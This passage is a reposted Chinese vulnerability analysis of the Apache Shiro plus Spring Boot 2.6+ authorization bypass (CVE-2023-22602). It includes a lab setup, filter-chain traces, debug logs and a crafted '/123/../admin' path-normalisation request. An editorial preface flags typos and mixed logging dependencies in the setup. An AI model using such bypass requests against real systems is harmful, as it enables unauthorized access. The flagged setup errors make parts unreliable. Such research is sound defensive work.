## 核对与使用边界


本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：Shiro&lt;1.11.0+Boot2.6+特定通配路由；main样例没锁版本

代码与实验材料：完整请求/调试日志/源码链，明确方法注解鉴权可阻挡，guest示例有价值

来源证据范围：Apacherelease、补天原文和sample链接较好

- **代码与转录边界（1）**：实验配置语法/日志依赖混乱；依据：debug=ture/trace=ture、XML反斜杠、SLF4J log4j12与logback混用。相应原代码作为存在此问题的历史样本保留，不能直接当作可运行、成功复现的 PoC；缺失内容需回原稿核对，不据此补造可执行攻击链。

- **适用与权限边界（2）**：低危判断需按业务限定；依据：/admin通配在实际常见，特定条件不等于低影响；guest演示不证明必须有账号。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **事实待核（3）**：概念及版本精度；依据：Spring2.6应Boot2.6，日志ALL仅适合隔离实验，main源码需tag。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# 奇安信攻防社区 - Shiro 小于 1.11.0 and Spring Boot 2.6+ 鉴权绕过（CVE-2023-22602）

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [forum.butian.net](https://forum.butian.net/share/2118)

> 奇安信攻防社区 - Shiro < 1.11.0 & Spring Boot 2.6+ 鉴权绕过（CVE-2023-22602）

shiro 在 1.11.0 版本之前，当与 spring boot 2.6 以上版本组合使用的时候，在默认配置下，配合特定的路由规则，攻击者可以通过发送特殊的请求造成 shiro 中的鉴权绕过。

漏洞描述
----

[官方通告](https://shiro.apache.org/blog/2023/01/13/apache-shiro-1110-released.html)  
shiro 在 1.11.0 版本之前，当与 spring boot 2.6 以上版本组合使用的时候，在默认配置下，配合特定的路由规则，攻击者可以通过发送特殊的请求造成 shiro 中的鉴权绕过。

Spring + shiro 请求处理流程
---------------------

### 搭环境

先要找一个简单标准的 spring+shiro 的项目。[shiro 的 simpals](https://github.com/apache/shiro/tree/main/samples/spring-boot-web) 里正好给了。  
下载到本地，`mvn spring-boot:run` 就可以跑起来。  
因为 spring 用的 log4j 做日志记录，shiro 用了 slf4j，为了方便分析流程，可以把日志的记录级别设成 ALL。  
原本项目的 pom.xml 需要改一下，添加下面版本的依赖。

```
<dependency\>
    <groupId\>org.slf4j</groupId\>
    <artifactId\>slf4j-api</artifactId\>
    <version\>1.7.20</version\>
</dependency\>
<dependency\>
    <groupId\>org.slf4j</groupId\>
    <artifactId\>slf4j-log4j12</artifactId\>
    <version\>1.5.6</version\>
</dependency\>


```

为了打印出 spring 的日志，在`application.properties`中添加`debug=ture`和`trace=ture`。  
为了打印出 shiro 中各种级别的日志，在资源目录下新建`logback.xml`内容如下：

```
<configuration\>
    　　　<appender name\="STDOUT" class\="ch.qos.logback.core.ConsoleAppender"\>
    　　　　　 <encoder\>
    　　　　　　　　　<pattern\>%-4relative \[%thread\] %-5level %logger{35} - %msg %n</pattern\>
    　　　　　 </encoder\>
    　　　</appender\>
    <logger name\="org.apache.shiro" level\="ALL" additivity\="false"\>
        　　　　　　<appender-ref ref\="STDOUT" />
    </logger\>
      　　　<root level\="ALL"\>
    　　　　　　<appender-ref ref\="STDOUT" />
    　　　</root\>
</configuration\>


```

这样就可以看到全部的调试信息，方便分析整个请求处理流程。



### Spring 初始化

### 请求处理

#### doFilter

初始化完成后，当有请求进来时，一开始是对数据的处理，以及一些初始化，我们从`ApplicationFilterChain.doFilter`开始跟。  
ApplicationFilterChain 中保存 spring 中的所有 Filter，其中和我们分析有关的是 3 号索引下的 shiroFilter。

  
通过 shiroFilter，可以把执行流从 spring 转移到 shiro，shiro 的所有功能都是在这里实现的。  
在进入 shiroFilter 之前，按照下面的顺序依次执行 Filter。

```
CharacterEncodingFilter(org.springframework.web.filter.OncePerRequestFilter).doFilter
CharacterEncodingFilter.doFilterInternal

ApplicationFilterChain.doFilter

FormContentFilter(org.springframework.web.filter.OncePerRequestFilter).doFilter
FormContentFilter.doFilterInternal

ApplicationFilterChain.doFilter

RequestContextFilter(org.springframework.web.filter.OncePerRequestFilter).doFilter
RequestContextFilter.doFilterInternal
OrderedRequestContextFilter.initContextHolders


```

在进入 shiroFilter 后，开始执行 shiro 中的 filter。  
关键的调用过程如下：

```
ShiroFilter(org.apache.shiro.web.servlet.OncePerRequestFilter).doFilter
ShiroFilter(AbstractShiroFilter).doFilterInternal
ShiroFilter(AbstractShiroFilter).executeChain
ShiroFilter(AbstractShiroFilter).getExecutionChain
PathMatchingFilterChainResolver.getChain
…
AntPathMatcher.doMatch
…
DefaultFilterChainManager.proxy
SimpleNamedFilterList.proxy
ProxiedFilterChain.doFilter


```

但 shiro 会根据具体请求去寻找对应的 filters, 封装成 ProxiedFilterChain，然后调用 ProxiedFilterChain.doFilter。例如在 shiro.ini 中配置了`/admin/** roles[admin]`，那么在 shiro 就会为 / admin/xxx 的请求分配 InvalidRequestFilter 和 RolesAuthorizationFilter 两个 filter，当分配的 filter 执行完成后，shiro 继续调用原本的 spring 的 filter 链。  


#### doService

当 filter 链执行完成后，表示 shiro 的鉴权已经完成。ApplicationFilterChain.doFilter 基本执行了一半。  
  
通过`servlet.service(request, response);`调用对应的 doService 去处理请求。关键调用大概像这样

```
…
HttpServlet.service
FrameworkServlet.service
HttpServlet.service
FrameworkServlet.doGet
FrameworkServlet.processRequest
DispatcherServlet.doService
DispatcherServlet.getHandler
AbstractHandlerMethodMapping.getHandlerInternal
AbstractHandlerMapping.initLookupPath
AbstractHandlerMapping.lookupHandlerMethod


```

spring 在 doService 阶段，才会在 lookupHandlerMethod 里做路由分发。最后通过反射进入 Controller 里的函数。

### shiro 中的路由匹配

因为 shiro 只存在于 doFilter 的流程，所以路由匹配肯定是在 ShiroFilter 中进行的。

```
2484 [main] TRACE o.a.s.w.f.a.FormAuthenticationFilter - Adding login url to applied paths. 
2484 [main] DEBUG o.a.s.w.f.m.DefaultFilterChainManager - Creating chain [/login.html] with global filters [invalidRequest] and from String definition [authc] 
2484 [main] DEBUG o.a.s.w.f.m.DefaultFilterChainManager - Attempting to apply path [/login.html] to filter [invalidRequest] with config [null] 
2499 [main] DEBUG o.a.s.w.f.m.DefaultFilterChainManager - Attempting to apply path [/login.html] to filter [authc] with config [null] 
2499 [main] DEBUG o.a.s.w.f.m.DefaultFilterChainManager - Creating chain [/logout] with global filters [invalidRequest] and from String definition [logout] 
2499 [main] DEBUG o.a.s.w.f.m.DefaultFilterChainManager - Attempting to apply path [/logout] to filter [invalidRequest] with config [null] 
2499 [main] DEBUG o.a.s.w.f.m.DefaultFilterChainManager - Attempting to apply path [/logout] to filter [logout] with config [null] 
2499 [main] DEBUG o.a.s.w.f.m.DefaultFilterChainManager - Creating chain [/admin/**] with global filters [invalidRequest] and from String definition [roles[admin]] 
2499 [main] DEBUG o.a.s.w.f.m.DefaultFilterChainManager - Attempting to apply path [/admin/**] to filter [invalidRequest] with config [null] 
2499 [main] DEBUG o.a.s.w.f.m.DefaultFilterChainManager - Attempting to apply path [/admin/**] to filter [roles] with config [admin] 
2499 [main] DEBUG o.a.s.w.f.m.DefaultFilterChainManager - Creating chain [/guest/**] with global filters [invalidRequest] and from String definition [roles[guest]] 
2499 [main] DEBUG o.a.s.w.f.m.DefaultFilterChainManager - Attempting to apply path [/guest/**] to filter [invalidRequest] with config [null] 
2499 [main] DEBUG o.a.s.w.f.m.DefaultFilterChainManager - Attempting to apply path [/guest/**] to filter [roles] with config [guest] 
2499 [main] DEBUG o.a.s.w.f.m.DefaultFilterChainManager - Attempting to apply path [/**] to filter [invalidRequest] with config [null] 


```

从上面的日志里可以看到，在初始化的时候，shiro 会通过各种给定的配置将不同路由和不同 filter 链匹配到一起。  
以下面的请求为例，最终会匹配到 / admin/** 的 chain。

```
GET /123/../admin HTTP/1.1
Host: 127.0.0.1:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: JSESSIONID=0a597a79-d2bf-4595-a3b9-ac70b5bda507
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1


```

日志记录如下：

```
TRACE o.a.s.w.f.m.PathMatchingFilterChainResolver - Matched path pattern [/admin/**] for requestURI [/admin].  Utilizing corresponding filter 
TRACE o.a.s.w.servlet.AbstractShiroFilter - Resolved a configured FilterChain for the current request. 
TRACE o.a.s.w.servlet.ProxiedFilterChain - Invoking wrapped filter at index [0] 
TRACE o.a.s.w.s.OncePerRequestFilter - Filter 'invalidRequest' not yet executed.  Executing now. 
TRACE o.a.s.web.filter.PathMatchingFilter - Attempting to match pattern '/login.html' with current requestURI '/admin'... 
TRACE o.a.s.web.filter.PathMatchingFilter - Pattern [/login.html] matches path [/admin] => [false] 
TRACE o.a.s.web.filter.PathMatchingFilter - Attempting to match pattern '/login.html' with current requestURI '/admin'... 
TRACE o.a.s.web.filter.PathMatchingFilter - Pattern [/login.html] matches path [/admin] => [false] 
TRACE o.a.s.web.filter.PathMatchingFilter - Attempting to match pattern '/logout' with current requestURI '/admin'... 
TRACE o.a.s.web.filter.PathMatchingFilter - Pattern [/logout] matches path [/admin] => [false] 
TRACE o.a.s.web.filter.PathMatchingFilter - Attempting to match pattern '/logout' with current requestURI '/admin'... 
TRACE o.a.s.web.filter.PathMatchingFilter - Pattern [/logout] matches path [/admin] => [false] 
TRACE o.a.s.web.filter.PathMatchingFilter - Attempting to match pattern '/admin/**' with current requestURI '/admin'... 
TRACE o.a.s.web.filter.PathMatchingFilter - Pattern [/admin/**] matches path [/admin] => [true] 
TRACE o.a.s.web.filter.PathMatchingFilter - Current requestURI matches pattern '/admin/**'.  Determining filter chain execution... 
TRACE o.a.s.web.filter.PathMatchingFilter - Filter 'invalidRequest' is enabled for the current request under path '/admin/**' with config 
 implementation for 'onPreHandle' check. 
TRACE o.a.shiro.web.servlet.AdviceFilter - Invoked preHandle method.  Continuing chain?: [true] 
TRACE o.a.s.w.servlet.ProxiedFilterChain - Invoking wrapped filter at index [1] 
TRACE o.a.s.w.s.OncePerRequestFilter - Filter 'roles' not yet executed.  Executing now. 
TRACE o.a.s.web.filter.PathMatchingFilter - Attempting to match pattern '/admin/**' with current requestURI '/admin'... 
TRACE o.a.s.web.filter.PathMatchingFilter - Pattern [/admin/**] matches path [/admin] => [true] 
TRACE o.a.s.web.filter.PathMatchingFilter - Current requestURI matches pattern '/admin/**'.  Determining filter chain execution... 
TRACE o.a.s.web.filter.PathMatchingFilter - Filter 'roles' is enabled for the current request under path '/admin/**' with config [[admin]].  
tation for 'onPreHandle' check. 
TRACE org.apache.shiro.util.ThreadContext - get() - in thread [http-nio-8081-exec-1] 
TRACE org.apache.shiro.util.ThreadContext - Retrieved value of type [org.apache.shiro.web.subject.support.WebDelegatingSubject] for key [org.
_SUBJECT_KEY] bound to thread [http-nio-8081-exec-1] 
TRACE o.a.s.s.support.DelegatingSubject - attempting to get session; create = false; session is null = true; session has id = false 
TRACE org.apache.shiro.util.ThreadContext - get() - in thread [http-nio-8081-exec-1] 
TRACE org.apache.shiro.util.ThreadContext - Retrieved value of type [org.apache.shiro.web.subject.support.WebDelegatingSubject] for key [org.
_SUBJECT_KEY] bound to thread [http-nio-8081-exec-1] 
TRACE o.a.s.s.support.DelegatingSubject - attempting to get session; create = false; session is null = true; session has id = false 
TRACE org.apache.shiro.util.ThreadContext - get() - in thread [http-nio-8081-exec-1] 
TRACE org.apache.shiro.util.ThreadContext - Retrieved value of type [org.apache.shiro.web.subject.support.WebDelegatingSubject] for key [org.
_SUBJECT_KEY] bound to thread [http-nio-8081-exec-1] 
TRACE o.a.s.s.support.DelegatingSubject - attempting to get session; create = true; session is null = true; session has id = false 
TRACE o.a.s.s.support.DelegatingSubject - Starting session for host 127.0.0.1 
TRACE o.a.s.s.mgt.DefaultSessionManager - Creating session for host 127.0.0.1 
DEBUG o.a.s.s.mgt.DefaultSessionManager - Creating new EIS record for new session instance [org.apache.shiro.session.mgt.SimpleSession,id=null] 
TRACE o.a.shiro.web.servlet.SimpleCookie - calculated path: / 
DEBUG o.a.shiro.web.servlet.SimpleCookie - Added HttpServletResponse Cookie [JSESSIONID=972d286f-8770-46ec-ad0a-22ad95736da0; Path=/; HttpOnly; 
TRACE o.a.s.w.s.m.DefaultWebSessionManager - Set session ID cookie for session with id 972d286f-8770-46ec-ad0a-22ad95736da0 
TRACE o.a.s.s.m.AbstractValidatingSessionManager - Attempting to retrieve session with key org.apache.shiro.web.session.mgt.
TRACE o.a.shiro.web.servlet.AdviceFilter - Invoked preHandle method.  Continuing chain?: [false] 
TRACE o.a.shiro.web.servlet.AdviceFilter - Successfully invoked postHandle method 
TRACE o.a.shiro.web.servlet.AdviceFilter - Successfully invoked afterCompletion method. 
TRACE o.a.shiro.web.servlet.AdviceFilter - Successfully invoked postHandle method 
TRACE o.a.shiro.web.servlet.AdviceFilter - Successfully invoked afterCompletion method.


```

#### 获取 uri

第一行就可以看到，shiro 解析到的 uri 是`/admin`而不是`/123/../admin`。  
这个 uri 的来源是 org.apache.shiro.web.filter.mgt.PathMatchingFilterChainResolver 的 getChain 中的  
`final String requestURI = getPathWithinApplication(request);`  


  
WebUtils.getPathWithinApplication 里的 normalize 会解析`/./`和`/../`  


  
此外，getServletPath(request) 和 getPathInfo(request) 获得的是经过 urldecode 和`..`解析的 uri。

#### 匹配

shiro 中在 pathMatches 里进行匹配。

  
而 pathMatcher 便是 AntPathMatcher。  


### spring 中的路由匹配

在 spring 中，路由匹配发生在 doService 中。  
在`AbstractHandlerMethodMapping.getHandlerInternal`中，在 lookupHandlerMethod 中获取 uri 以及匹配。  
调用如下。

```
AbstractHandlerMapping.lookupHandlerMethod 
AbstractHandlerMapping.addMatchingMappings
AbstractHandlerMapping.getMatchingMapping
RequestMappingInfo.getMatchingCondition


```

  
在 getMatchingCondition 里可以看到 pathPatternsCondition 和 patternsCondition 两种方式，对应了 spring 配置中`spring.mvc.pathmatch.matching-strategy`的 ant_path_matcher 和 path_pattern_parser 的路由匹配模式。  
ant_path_matcher 对应 patternsCondition。path_pattern_parser 对应 pathPatternsCondition。  
在 spring2.6 + 后，path_pattern_parser 为默认配置。  
ant_path_matcher 中`?`匹配单个字符，`*`匹配单级目录，`**`匹配多级目录。  
path_pattern_parser 支持`{*name}`获取多级变量，并且`**`后面不能再有其他东西。  
通过跟源码可以发下，这部分的处理中 spring 基本都是并列写两个 if，去分别处理 ant_path_matcher 和 path_pattern_parser 的情况。

#### ant_path_matcher

ant_path_matcher 对应的是 PatternsRequestCondition.getMatchingCondition  


##### 获取 uri

`String lookupPath = UrlPathHelper.getResolvedLookupPath(request);`获取 uri。  
  
PATH_ATTRIBUTE 的设置是在 resolveAndCacheLookupPath 函数中，调用点为 AbstractHandlerMapping.initLookupPath  
  
getUrlPathHelper() 拿到的其实是 shiro 里继承的 ShiroUrlPathHelper。  
类中重写了 getPathWithinApplication 方法。  
